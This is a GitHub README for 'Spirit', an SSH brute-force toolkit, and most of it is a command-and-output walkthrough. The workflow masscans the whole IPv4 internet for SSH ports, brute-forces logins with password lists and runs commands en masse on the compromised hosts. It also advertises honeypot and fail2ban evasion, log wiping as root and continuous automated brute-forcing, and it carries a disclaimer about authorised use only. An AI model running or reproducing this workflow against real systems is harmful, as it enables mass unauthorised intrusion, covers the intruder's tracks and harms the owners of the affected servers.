

# Spirit - Network Pentest Tools

> NOTICE: rumors have been circulating that `spirit` contains a backdoor, that's not true we would never do that.
> We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools commands. \
some commands have subcommands `./spirit <command> --help`

## Example usage for SSH brute flow
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse open.lst to format the data, so that spirit can understand it.
$ ./spirit parse open.lst
INFO created h.lst in HOST:PORT format

# create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Test these open ports if they're running SSH by grabbing banners.
# includes custom designed SSH connection flow.
$ ./spirit banner
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created b.lst in HOST:PORT:BANNER format
# spirit created a `b.lst` file containing the hosts running SSH and their banner.
head -n1 b.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Move the banner output (b.lst) to h.lst so spirit will load it automatically for bruting.
$ mv b.lst h.lst

# Add a password list, spirit will automatically load user:pass from a p.lst file.
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit omni` for connecting en-masse
out of [26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
# omni will automatically attempt to connect to hosts present in the found.lst file,
# run commands on them and display the output to you.
$ ./spirit omni -c 'whoami && uptime'
```

> Tip: you can automate these steps with `./spirit forever` for continuous automatic probing on random ports & bruting. 

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```
> *Spirit can self-upgrade only on amd64 aka x86-64 for now. [`donate to speed things up`](#monero-xmr-thank-you)

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 1,000 `public IPs`

If you need to pen-test more than 1,000 public IP or need Pro features we charge a small fee to help us support the project development. Use `./spirit buy` to upgrade.

## Spirit Pro
Buy a Spirit Pro license directly from the CLI `./spirit buy`. Every license helps support our development and server costs. If you want to try a Pro feature, ask for a free Pro trial license by opening an [issue](https://github.com/theaog/spirit/issues).

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time on them
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking to increase accuracy
- set your optimal concurrent threads for banner and brute `--jobs`
- very light on server load (CPU and memory)
- connect to all your hosts concurrently, upload files and execute remote commands using `./spirit omni -c 'uptime'`
- clean connection logs (if uid0) using `./spirit zap`
- masscan whole zones automatically at your own pace `./spirit masscan --zone zone.lst --rate 10_000`
- continously scan & brute your network on random ports `./spirit forever` -- spot vulnerabilities before they happen
- test targets for common local and remote exploits `./spirit exploit` (beta)
- and more...

# Support the Develpoment of the Spirit toolkit!
## Monero (XMR) thank you! (our favorite)
`8ATU7h8vJWgJrGHjjG6N9aY69pUsvyFg8WRUxeGPy6jEbcZxRagsWmUN3ZrLpqDqBtHAafTLfnBzCibhvQG3trrNEdGvoTa`


## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
